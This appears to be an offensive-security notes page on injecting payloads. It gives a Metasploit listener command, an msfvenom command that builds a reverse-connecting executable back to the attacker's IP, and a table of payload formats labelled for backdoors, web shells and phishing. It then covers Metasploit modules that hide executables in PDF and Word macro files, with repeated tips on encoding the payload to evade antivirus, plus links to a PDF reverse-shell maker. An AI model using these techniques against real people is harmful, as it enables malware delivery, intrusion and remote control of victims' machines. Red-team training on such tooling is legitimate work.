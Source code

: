 # Injecting Payload

## &#x20;Listener&#x20;

```bash
use exploit/multi/handler
```

## Msfvenom to other file

```bash
msfvenom -p <payload> LHOST=YOUR_IP LPORT=4444 -f exe -o payload.exe
```

{% embed url="https://www.clawnix.com/" %}

🧩 `msfvenom` Payload Format Table

| Format Type              | `msfvenom` Flag (`-f`) | File Extension | Typical Use Case                             |
| ------------------------ | ---------------------- | -------------- | -------------------------------------------- |
| **Windows Binary**       | `exe`                  | `.exe`         | Windows executable backdoor or dropper       |
| **Dynamic Link Library** | `dll`                  | `.dll`         | DLL injection or sideloading                 |
| **PowerShell Script**    | `ps1`                  | `.ps1`         | In-memory execution via PowerShell           |
| **Batch Script**         | `raw` (as `.bat`)      | `.bat`         | Simple batch-based payload delivery          |
| **Shellcode (C)**        | `c`                    | `.c`           | Inject into custom C programs                |
| **Shellcode (Python)**   | `python`               | `.py`          | Use with Python loaders                      |
| **Shellcode (Raw)**      | `raw`                  | `.bin`         | Custom loaders or memory injection           |
| **HTA Payload**          | `hta-psh`              | `.hta`         | Used in phishing and browser-based delivery  |
| **Java Payload**         | `jar`                  | `.jar`         | For exploiting Java apps or JNLP delivery    |
| **Android APK**          | _(no flag needed)_     | `.apk`         | Android device backdoor                      |
| **Linux ELF**            | `elf`                  | `.elf`         | Executable on Linux systems                  |
| **macOS Mach-O**         | `macho`                | `.macho`       | Payloads for macOS targets                   |
| **PHP Web Shell**        | `raw`                  | `.php`         | Upload to web servers for command execution  |
| **ASP Web Shell**        | `asp`                  | `.asp`         | Exploit ASP-based web servers                |
| **JSP Web Shell**        | `jsp`                  | `.jsp`         | Target Java-based web servers (Tomcat, etc.) |

## PDF Payload

### Metasploit exploits

📄 `exploit/windows/fileformat/adobe_pdf_embedded_exe`

* **Description**: Embeds an EXE into a PDF using **JavaScript** for execution.
* **Technique**: Leverages **JavaScript triggers** inside the PDF to execute the embedded EXE when the victim opens the file.
* **More reliable** on older versions of Adobe Reader where JavaScript execution is enabled.
* **More likely to be flagged** by AV or sandbox because JavaScript in PDFs is a red flag.

#### 🔥 Pros:

* Higher chance of execution **if JavaScript is allowed**.
* Can be more dynamic and interactive (e.g., auto-launch on open).

#### ❌ Cons:

* Depends on **JavaScript being enabled** in Adobe Reader.
* Newer versions of Adobe Reader **disable or restrict JS** by default.
* Easier for security tools to detect.

{% hint style="warning" %}
To encode the pdf to avoid AV we need to use a custom msfvenom exe and not the default exploit exe, that we encoded and then on the exploit settings we set the exe
{% endhint %}

***

📄 `exploit/windows/fileformat/adobe_pdf_embedded_exe_nojs`

* **Description**: Same as the above but **without JavaScript**.
* **Technique**: Embeds the EXE inside a PDF **without using JS to trigger it**.
* Requires **manual interaction** by the victim (e.g., double-clicking a file icon inside the PDF).
  * Less suspicious to AV because it doesn’t rely on script-based triggers.

#### 🔥 Pros:

* **Better AV evasion** — no JavaScript means fewer red flags.
* **Works even if JavaScript is disabled** in Adobe Reader.

#### ❌ Cons:

* **Less reliable** because it depends on user interaction.
* May be harder to convince someone to execute the embedded EXE.

{% hint style="warning" %}
To encode the pdf to avoid AV we need to use a custom msfvenom exe and not the default exploit exe, that we encoded and then on the exploit settings we set the exe
{% endhint %}

### Pdf revshell maker

{% embed url="https://github.com/ASTRA-LabsHQ/Malware-Development/tree/main" %}

{% file src="../../../../.gitbook/assets/PDFReverseShell.zip" %}

{% embed url="https://www.youtube.com/watch?v=ygrVBsBw31Y" %}

### Setoolkit

Modules

## &#x20;MS Word Payload

```
use exploit/windows/fileformat/office_word_macro
```

* Generates `.doc` file with VBA macro that drops & runs a payload.
* Works regardless of Office version **if macros are enabled**.
* AV may catch the macro or payload — obfuscation is key.

{% hint style="warning" %}
To encode the word file to avoid AV we need to use a custom msfvenom exe and not the default exploit exe, that we encoded and then on the exploit settings we set the exe
{% endhint %}
